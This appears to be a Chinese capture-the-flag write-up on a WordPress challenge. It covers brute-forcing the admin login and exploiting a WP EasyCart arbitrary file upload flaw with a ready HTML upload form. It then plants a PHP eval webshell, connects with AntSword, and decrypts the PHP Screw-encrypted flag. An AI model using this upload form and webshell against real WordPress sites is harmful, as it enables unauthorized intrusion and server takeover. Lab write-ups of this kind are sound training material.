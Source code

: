 # WEB_Wordpress插件漏洞与screw解密

[wp插件上传漏洞]: https://www.exploit-db.com/exploits/35730
[screw解密]: https://github.com/ianxtianxt/screw_decode

拿到题，是wordpress搭建的网站

御剑扫出后台，burpsuite爆破出账号a密码a123456，登录

看hellp提示插件shopping cart，据了解有任意文件上传漏洞，找到插件后台ip/wp-content/plugins/wp-easycart/

本地写下列2.php，然后浏览器运行

```php
<form action="http://aae9f19a.yunyansec.com/wp-content/plugins/wp-easycart/inc/amfphp/administration/banneruploaderscript.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="datemd5" value="1">
    <input type="file" name="Filedata">
    <input value="Upload!" type="submit">
</form>
```

上传一句话木马1.php   <php @eval($_POST['x'])>

<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210529160850084.png" alt="image-20210529160850084" style="zoom: 67%;" />

查看http://aae9f19a.yunyansec.com/wp-content/plugins/wp-easycart/products/banners/，已经存在webshell，蚁剑连接http://aae9f19a.yunyansec.com/wp-content/plugins/wp-easycart/products/banners/1_1.php，密码x

拿到flag.php

```
	PM9SCREW	?2E.?焜僸~啗助*硎q/峪醢髫l*缍I魣€?甶O>?贤 E\j9z\畇s_-2C汗羯鉩?
肁檔BZ 绁?wj?"F??儒h?瓓銵畽?P	
```

最前面提示是screw加密，又回去找到php_screw.so。 ida逆向，找到<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210529161230229.png" alt="image-20210529161230229" style="zoom:50%;" />

双击cs继续往下找![image-20210529161314572](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210529161314572.png)

将黄线部分后面16进制转换为10进制，保存退出。

打开kali虚拟机，下载screw_decode，make安装，运行下列代码

![image-20210529161453348](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210529161453348.png)

解密成功

![image-20210529161529860](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210529161529860.png)